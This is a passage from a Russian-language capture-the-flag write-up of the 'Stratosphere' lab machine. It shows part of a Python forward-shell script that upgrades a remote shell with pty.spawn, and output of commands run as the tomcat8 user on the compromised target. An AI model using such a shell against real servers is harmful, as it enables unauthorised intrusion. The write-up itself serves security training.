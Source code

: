 ```python
	def upgradeShell(self):
		upgradeShell = """python3 -c 'import pty; pty.spawn("/bin/bash")'"""
		self.writeCmd(upgradeShell)


prompt = 'stratosphere> '
S = Stratosphere()

while True:
	cmd = input(prompt)
	if cmd == 'upgrade':
		prompt = ''
		S.upgradeShell()
	else:
		S.writeCmd(cmd)
```

Подробнее об этом способе можно узнать из [туториала](https://youtu.be/k6ri-LFWEj4?t=15m35s "VulnHub - Sokar - YouTube") прохождения машины с VulnHub'а от IppSec'а. От себя добавлю, что в нашем случае представляется невозможным использование библиотеки `requests` для Python в силу особенностей используемой уязвимости: `requests` не умеет по-человечески работать с возвращаемым уязвимым сервером **IncompleteRead**, возбуждая исключение `requests.exceptions.ChunkedEncodingError`; если же использовать встроенные средства языка, то этот же ответ с IncompleteRead без проблем перехватывается исключением `http.client.IncompleteRead` и далее успешно обрабатывается как `e.partial`. Подробнее об этой проблеме [здесь](https://github.com/mazen160/struts-pwn/issues/8 "Issue with requests partial read · Issue #8 · mazen160/struts-pwn").

Итак, время полевых испытаний:
```text
root@kali:~# python3 StratosphereFwdShell.py
[*] Session ID: 42942
[*] Setting up fifo shell on target
[*] Setting up read thread
stratosphere> pwd
/var/lib/tomcat8

stratosphere> whoami
tomcat8

stratosphere> id
uid=115(tomcat8) gid=119(tomcat8) groups=119(tomcat8)

stratosphere> uname -a
Linux stratosphere 4.9.0-6-amd64 #1 SMP Debian 4.9.82-1+deb9u2 (2018-02-21) x86_64 GNU/Linux

stratosphere> ls -la
total 24
drwxr-xr-x  5 root    root    4096 Sep  4 09:32 .
drwxr-xr-x 42 root    root    4096 Oct  3  2017 ..
lrwxrwxrwx  1 root    root      12 Sep  3  2017 conf -> /etc/tomcat8
-rw-r--r--  1 root    root      68 Oct  2  2017 db_connect
drwxr-xr-x  2 tomcat8 tomcat8 4096 Sep  3  2017 lib
lrwxrwxrwx  1 root    root      17 Sep  3  2017 logs -> ../../log/tomcat8
drwxr-xr-x  2 root    root    4096 Sep  4 09:32 policy
drwxrwxr-x  4 tomcat8 tomcat8 4096 Feb 10  2018 webapps
lrwxrwxrwx  1 root    root      19 Sep  3  2017 work -> ../../cache/tomcat8

stratosphere> file *
conf:       symbolic link to /etc/tomcat8
db_connect: ASCII text
lib:        directory
logs:       symbolic link to ../../log/tomcat8
policy:     directory
webapps:    directory
```